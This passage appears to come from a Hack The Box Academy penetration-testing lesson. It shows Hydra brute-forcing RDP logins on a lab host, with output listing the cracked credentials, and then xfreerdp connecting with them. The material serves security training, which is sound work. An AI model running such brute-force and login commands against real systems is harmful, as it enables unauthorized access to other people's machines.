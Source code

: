 ### **Hydra - RDP**

We can also use `Hydra` to perform RDP bruteforcing.

```
th1nyunb0y@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

Linux offers different clients to communicate with the desired server using the RDP protocol. These include [Remmina](https://remmina.org/), [rdesktop](http://www.rdesktop.org/), [xfreerdp](https://linux.die.net/man/1/xfreerdp), and many others. For our purposes, we will work with xfreerdp.

### **xFreeRDP**

```
th1nyunb0y@htb[/htb]$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

```
th1nyunb0y@htb[/htb]$ xfreerdp /v:10.129.42.197 /u:user /p:password

...SNIP...
New Certificate details:
        Common Name: WINSRV
        Subject:     CN = WINSRV
        Issuer:      CN = WINSRV
        Thumbprint:  cd:91:d0:3e:7f:b7:bb:40:0e:91:45:b0:ab:04:ef:1e:c8:d5:41:42:49:e0:0c:cd:c7:dd:7d:08:1f:7c:fe:eb

Do you trust the above certificate? (Y/T/N) Y
```

![https://academy.hackthebox.com/storage/modules/147/RDP.png](https://academy.hackthebox.com/storage/modules/147/RDP.png)

---
